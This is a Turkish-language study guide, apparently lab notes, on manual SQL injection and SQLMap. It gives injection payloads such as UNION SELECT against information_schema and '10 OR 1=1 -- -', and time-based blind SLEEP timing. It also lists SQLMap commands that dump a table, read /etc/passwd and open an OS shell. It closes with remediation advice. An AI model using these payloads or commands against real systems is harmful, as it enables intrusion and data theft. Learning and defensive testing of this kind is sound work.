


# 💉 02. SQL Injection & SQLMap — Adım Adım Teknik Rehber

Bu modül; `WİK sql`, `wik sqlmap room notes` ve `wik sqlinjlab` saha notlarının birleştirilmiş halidir. Hem **manuel SQL enjeksiyonu** (String ve Sayısal/Non-String parametreler) hem de **SQLMap (`-u`, `--data`, `-r`, `-p`)** kullanımını adım adım anlatır.

---

## 🗺️ Adım Adım Nasıl Aranır?





---

## 1. Adım Adım Arama ve Tespit Metodolojisi

### Adım 1: Giriş Noktasını Yakala ve Türünü Belirle
* **HTTP GET (`-u`):** URL'deki `?id=1`, `?cat=1` parametreleri. *(Not: Web URL'deki `cat` = **Category**, Linux komutu `cat` = Concatenate.)*
* **HTTP POST (`--data` veya `-r req.txt`):** Burp Suite'te yakalanan ham POST isteğini `req.txt` olarak kaydet; böylece Cookie, User-Agent ve CSRF başlıklarını elle yazmazsın.
* **Cookie-Based:** `--cookie="PHPSESSID=..."` veya doğrudan `req.txt` içinde.

### Adım 2: Manuel Test (String vs Sayısal / Non-String)
* **String Parametre (`WHERE name LIKE '%girdi%'`):**
  * Filtre açma: `';--` (tırnağı kapatır, `WHERE` şartını kırıp kalanını yorum satırı yapar).
  * `UNION` ile tablo çekme: `%' UNION SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables ';--`
* **Sayısal (Non-String) Parametre (`WHERE profileID=10 AND password='...'`):**
  * Geliştirici `'` koymadığı için **tırnak kapatmaya gerek yoktur!**
  * `10 OR 1=1` → Operatör önceliğinde `AND`, `OR`'dan önce çalışır. Parola kontrolünü tamamen uçurmak için yorum satırı ekle: **`10 OR 1=1 -- -`** veya **`10 OR 1=1 #`**.

### Adım 3: Time-Based Blind SQLi Matematiği
Sayfa hata veya veri basmıyorsa `SLEEP(t)` ile gecikme ölçülür:
* **Formül:** `Toplam Gecikme = Eşleşen Satır Sayısı (n) × SLEEP(t)`
* **Örnek:** `"hammer"` kelimesi 2 satırla eşleşiyorsa ve `SLEEP(2)` çalıştırılırsa sunucu **2 × 2 = 4 saniye** bekler.
* *Senior İpucu:* Sunucuyu kilitlememek için `SLEEP(10)` yerine `SLEEP(1)` veya `SLEEP(2)` kullan.

### Adım 4: SQLMap ile Hedefli Sömürü (`-r` ve `-p`)
```bash
# 0. İnteraktif sihirbaz (yeni başlayanlar için)
sqlmap --wizard

# 1. Ham POST isteğinde SADECE hedef parametreyi kilitleyerek tara (-p)
sqlmap -r req.txt -p blood_group --dbs

# 2. Veritabanındaki tabloları listele (-D)
sqlmap -r req.txt -p blood_group -D users --tables

# 3. Hedef tablodaki veriyi dök (-T ... --dump)
sqlmap -r req.txt -p blood_group -D users -T thomas --dump

# 4. İleri seviye Foothold: Dosya okuma ve OS Shell
sqlmap -r req.txt -p blood_group --file-read="/etc/passwd"
sqlmap -r req.txt -p blood_group --os-shell
```

---

## 2. Bilinmesi Gereken Temel SQL Deyimleri
| Deyim | Görevi | Örnek |
| :--- | :--- | :--- |
| `DISTINCT` | Tekrar eden satırları tekilleştirir | `SELECT DISTINCT name FROM books;` |
| `GROUP BY` | Satırları gruplar (`COUNT`, `GROUP_CONCAT`) | `SELECT category, GROUP_CONCAT(name SEPARATOR ", ") AS books FROM books GROUP BY category;` |
| `ORDER BY` | Artan (`ASC`) / Azalan (`DESC`) sıralar; sütun sayısı bulmada kullanılır | `ORDER BY 1`, `ORDER BY 2`... |
| `HAVING` | `GROUP BY` sonrası gruplanmış veriyi filtreler | `GROUP BY name HAVING COUNT(*) > 1` |

---

## 3. Güvenli Kodlama (Remediation)
1. **Prepared Statements / PDO:** Kullanıcı girdisini asla f-string veya string birleştirme ile SQL sorgusuna yapıştırma.
2. **Type Casting (Sayısal Alanlar):** `intval($_GET['id'])` veya `int()` ile tür zorlaması yap (`10 OR 1=1` girdisini `10` sayısına indirger).
3. **En Az Yetki (Least Privilege):** Veritabanı kullanıcısına `FILE` okuma/yazma veya `xp_cmdshell` yetkisi verme.
